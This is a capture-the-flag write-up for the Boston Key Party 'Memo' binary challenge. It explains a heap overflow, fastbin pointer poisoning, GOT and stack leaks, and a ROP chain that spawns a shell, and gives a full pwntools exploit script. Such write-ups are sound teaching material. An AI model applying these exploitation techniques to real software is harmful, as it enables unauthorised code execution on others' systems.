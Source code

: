 ```yaml
---
layout: post
title: Memo - BostonKeyParty (300 pts)
---
```

This challenge is a prequel to the BookWriter challenge on [pwnable.tw](pwnable.tw) .

Challenge has no PIE but full RELRO which means either exploit a hook function or the return address.

Heap overflow allows us to overwrite fd of fastbin. In order to allocate it somewhere without malloc errors popping up, create
a fake chunk in the Data Section (which is not randomised). Use the password to create a fake chunk of size 0x31, set the
appropiate next fastbin size and then make fd point there. Then overwrite one of the heap pointers to GOt address.

Leak Got address. Running the vulnerability multiple times is vital. So, overwrite one heap pointer with the address of the fake
chunk which we just allocated. This is so that we can free it easily and then once again malloc() it on the data section. We need
to manually provide the pointer since for size > 32, program does not write the returned heap ptr to index.

Overwrite with stack address, get stack leak. Point to RBP and then call the edit function. Pass in a pop rdi gadget with address
of "sh" string (find in libc) followed by system address.

```python
#!/usr/bin/python
from pwn import *

p = process("./memo")

def leak(idx):
	p.recvuntil(">>")
	p.sendline("3")
	p.recvuntil("Index:")
	p.sendline(str(idx))
	p.recvuntil("View Message:")
	leak_1 = p.recvuntil("1.")
	b = leak_1.split()
	c = b[0] + "\x00"*2
	print hex(u64(c))
	return u64(c)
	
	

def leave_note(idx,length,name):
	p.recvuntil(">>")
	p.sendline("1")
	p.recvuntil("Index:")
	p.sendline(str(idx))
	p.recvuntil("Length:")
	p.sendline(str(length))
	p.recvuntil("Message:")
	p.sendline(name)

def delete_note(idx):
	p.recvuntil(">>")
	p.sendline("4")
	p.recvuntil("Index:")
	p.sendline(str(idx))
	p.recvuntil("Deleted!")

def view_note(idx):
	p.recvuntil(">>")
	p.sendline("3")
	p.sendline(str(idx))


p.sendline("A")
p.recvuntil("(y/n)")
p.sendline("y")
p.recvuntil("Password:")
buff = "\x00"*8
buff += "\x31"
buff += "\x00"*15
p.sendline(buff)

lol = "B"*8
leave_note(0,32,lol)
leave_note(1,32,lol)
leave_note(2,32,lol)
#leave_note(3,32,lol)
delete_note(2)
delete_note(1)
delete_note(0)

payload = "D"*40
payload += "\x31"
payload += "\x00"*7
payload += p64(0x602a40)

p.recvuntil(">>")
p.sendline("1")
p.recvuntil("Index:")
p.sendline(str(0))
p.recvuntil("Length:")
p.sendline(str(200))
p.recvuntil("memo though")
p.sendline(payload)


leave_note(0,32,lol)
payload = "X"*16
payload += "\x20\x00\x00\x00\x20\x00\x00\x00"*2
got_addr = 0x601ff0
payload += p64(got_addr)
payload += p64(0x31)
payload += p64(0x602a50)
payload += p64(0x00)*1

# To get stack leak, put 0x602aa0.

print p.recvuntil(">>")
p.sendline("1")
print p.recvuntil("Index:")
p.sendline(str(1))
print p.recvuntil("Length:")
p.sendline(str(200))
p.recvuntil("memo though")
p.sendline(payload)

libc_leak = leak(0)
system_addr = libc_leak + 0xe510
print "System at " + hex(system_addr)
delete_note(2)

p.recvuntil(">>")
p.sendline("1")
p.recvuntil("Index:")
p.sendline(str(2))
p.recvuntil("Length:")
p.sendline(str(200))
p.recvuntil("memo though")

payload = "X"*16
payload += "\x20\x00\x00\x00\x20\x00\x00\x00"*2
stack_addr = 0x602aa0
payload += p64(stack_addr)
payload += p64(0x31)
payload += p64(0x602a50)
payload += p64(0x00)*1

p.sendline(payload)
stack_lk = leak(0) + 0x18
print "RBP at " + hex(stack_lk)


delete_note(2)

p.recvuntil(">>")
p.sendline("1")
p.recvuntil("Index:")
p.sendline(str(2))
p.recvuntil("Length:")
p.sendline(str(200))
p.recvuntil("memo though")

payload = "X"*16
payload += "\x20\x00\x00\x00\x20\x00\x00\x00"*2
stack_addr = stack_lk
payload += p64(stack_addr)
payload += p64(0x31)
payload += p64(stack_addr)
p.sendline(payload)

# Edit Frame.
# 0x0000000000401263 --> pop rdi; ret.

print p.recvuntil(">>")
p.sendline("2")
print p.recvuntil("Edit message:")
payload = p64(0x401263)
#payload += p64(0x0000000000401263)
sh_string = system_addr + 0x3a52ac
payload += p64(sh_string)
payload += p64(system_addr)
raw_input()
p.sendline(payload)


p.interactive()

```
